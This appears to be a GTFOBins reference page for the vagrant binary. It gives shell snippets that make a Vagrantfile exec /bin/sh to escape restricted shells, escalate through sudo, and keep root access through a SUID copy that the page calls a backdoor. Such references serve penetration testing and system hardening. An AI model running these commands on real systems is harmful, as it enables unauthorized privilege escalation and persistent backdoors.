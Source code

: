 # GTFOBin: vagrant

This allows to execute `ruby` code, other functions may apply.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
cd $(mktemp -d)
echo 'exec "/bin/sh"' > Vagrantfile
vagrant up
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which vagrant) .

cd $(mktemp -d)
echo 'exec "/bin/sh -p"' > Vagrantfile
vagrant up
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
cd $(mktemp -d)
echo 'exec "/bin/sh"' > Vagrantfile
vagrant up
```